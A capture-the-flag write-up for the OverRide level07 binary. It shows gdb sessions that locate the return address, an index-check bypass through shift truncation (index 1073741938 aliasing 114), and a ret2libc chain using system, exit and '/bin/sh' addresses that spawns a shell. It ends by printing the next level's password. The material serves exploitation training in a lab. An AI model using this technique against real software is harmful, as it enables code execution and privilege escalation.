 Running this binary, we get : 

	level07@OverRide:~$ ./level07 
	----------------------------------------------------
	Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	Commands:                                          
		store - store a number into the data storage    
		read  - read a number from the data storage     
		quit  - exit the program                        
	----------------------------------------------------
	wil has reserved some storage :>                 
	----------------------------------------------------

	Input command: 

We can store one number at a time in a given index. There is a security that prevents using any index divisible by 3 though, so index 0, 3, 6, etc..., are unwritable. Also, we can't access environment variables, so we won't be able to store a payload there. The most obvious thing to do is a ret2libc, where we overflow the stack return address with another function, in our case a call to system with /bin/sh as argument.

First, we need to know where we can overwrite the return address. First of all, let's find it by setting a breakpoint at the end of our program and looking at eip :

	(gdb) b *main+718
	Breakpoint 3 at 0x80489f1
	[...]
	Breakpoint 3, 0x080489f1 in main ()
	(gdb) i r
	[...]
	eip            0x80489f1	0x80489f1 <main+718> <-- not this one
	[...]
	(gdb) si
	0xf7e45513 in __libc_start_main () from /lib32/libc.so.6
	(gdb) i r
	[...]
	eip            0xf7e45513	0xf7e45513 <__libc_start_main+243>
	[...]

The second one is the one we want : 0xf7e45513

We can also have a look at the stack by using an easily identifiable number, for instance 238 <=> 0xee (at the index 1 because we can't access 0)

	Input command: store
	Number: 238
	Index: 1

	Breakpoint 3, 0x080486d5 in store_number ()
	(gdb) x/100x $esp
	0xffffd4f0:	0x08048add	0xffffd544	0x00000000	0xf7e2b6c0
	0xffffd500:	0xffffd708	0xf7ff0a50	0x000000ee	0x00000001
	0xffffd510:	0x00000000	0xffffdfdc	0xffffd708	0x080488ef
	0xffffd520:	0xffffd544	0x00000014	0xf7fcfac0	0xf7fdc714
	0xffffd530:	0x00000098	0xffffffff	0xffffd7fc	0xffffd7a8
	0xffffd540:	0x00000000	0x00000000	0x000000ee	0x00000000 <------ here
	0xffffd550:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000

Lets find its address :

	(gdb) x 0xffffd548
	0xffffd548:	0x000000ee

If we keep going a bit further, we can find the eip return value we saw earlier :

	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6d0:	0x00000000	0x00000001	0x726f7473	0x00000065
	0xffffd6e0:	0x00000000	0x00000000	0x00000000	0x4cfa9200
	0xffffd6f0:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
	0xffffd700:	0x00000000	0x00000000	0x00000000	0xf7e45513 <----- return address
	0xffffd710:	0x00000001	0xffffd7a4	0xffffd7ac	0xf7fd3000
	0xffffd720:	0x00000000	0xffffd71c	0xffffd7ac	0x00000000
	0xffffd730:	0x080482b8	0xf7fceff4	0x00000000	0x00000000
	0xffffd740:	0x00000000	0xfe293c18	0xc92eb808	0x00000000
	0xffffd750:	0x00000000	0x00000000	0x00000001	0x08048510
	0xffffd760:	0x00000000	0xf7ff0a50	0xf7e45429	0xf7ffcff4
	0xffffd770:	0x00000001	0x08048510	0x00000000	0x08048531
	0xffffd780:	0x08048723	0x00000001	0xffffd7a4	0x08048a00
	0xffffd790:	0x08048a70	0xf7feb620	0xffffd79c	0xf7ffd918
	0xffffd7a0:	0x00000001	0xffffd8cc	0x00000000	0xffffd8e8
	0xffffd7b0:	0xffffd8f8	0xffffd90c	0xffffd92f	0xffffd942
	0xffffd7c0:	0xffffd94f	0xffffde70	0xffffde7c	0xffffdec9
	0xffffd7d0:	0xffffdee0	0xffffdeef	0xffffdf07	0xffffdf18
	0xffffd7e0:	0xffffdf21	0xffffdf3a	0xffffdf42	0xffffdf54
	0xffffd7f0:	0xffffdf64	0xffffdf9a	0xffffdfba	0x00000000
	0xffffd800:	0x00000020	0xf7fdb430	0x00000021	0xf7fdb000

Again, we get its address :

	(gdb) x 0xffffd70c
	0xffffd70c:	0xf7e45513

We stored the number ee at index 1, So we can know where is located the return address with a simple substraction : 0x70c - 0x548 = 0x1c4, 452 in decimal. One index can store 4 bytes, so if we divide it by 4 we get index 113. Let's keep in mind that we used index 1 instead of 0, so we need to add 1 to the result, we get the index 114.

Let's try to store something here to see what happens :

	Input command: store
	Number: 1111
	Index: 114
	*** ERROR! ***
	This index is reserved for wil!
	*** ERROR! ***
	Failed to do store command

Of course 114 % 3 = 0, so we can't write in there. However, there is one specific line in store_number that is interesting :

   0x080486c5 <+149>:	shl    $0x2,%eax

Basically, to go from indexes to bytes the binary will byteshift to the left twice (equivalent to multiply by 4).

114 in binary is 1110010, the 32bit repr is 00000000000000000000000001110010

If we byteshift left twice, we get : 00000000000000000000000111001000 (456 in dec, obviously).
But here's the thing : The 2 most significant bytes are removed. That means whatever is stored in them won't have an impact on the final result. Let's take our 114 in 32-bit repr, and add a 1 at the second MSB (to avoid negative numbers). We now get :

	01000000000000000000000001110010

This is equal to 1073741938 in decimal. That means byteshifting twice this number will yield the same result as byteshifting twice 114. By passing this number, we can access the index 114 (note that this number is not divisible by 3 itself, otherwise we still could not access index 114). Let's check it :

	Input command: store
	Number: 1234 
	Index: 1073741938
	Completed store command successfully
	Input command: read
	Index: 114
	Number at data[114] is 1234
	Completed read command successfully
	Input command: quit
	Segmentation fault (core dumped)

	level07@OverRide:~$ dmesg
	[...]
	[24161.934779] level07[3134]: segfault at 4d2 ip 00000000000004d2 sp 00000000ffffd730 error 14 in level07[8048000+1000]

0x4d2 <=> 1234, this way we can sucessfully store anything we want at the index 114.

Now, we just have to find the adresses of system, "/bin/sh", and exit (to gracefully exit the program, because segfaults can be detected).

[source](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

	(gdb) p system
	$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

	(gdb) p exit
	$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

	(gdb) info proc map
	process 1936
	Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
	(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
	0xf7f897ec
	1 pattern found.

Now we need to convert these addresses to decimal and store them using the binary :

system :    0xf7e6aed0 <=> 4159090384

exit :      0xf7e5eb70 <=> 4159040368

/bin/sh :   0xf7f897ec <=> 4160264172

level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
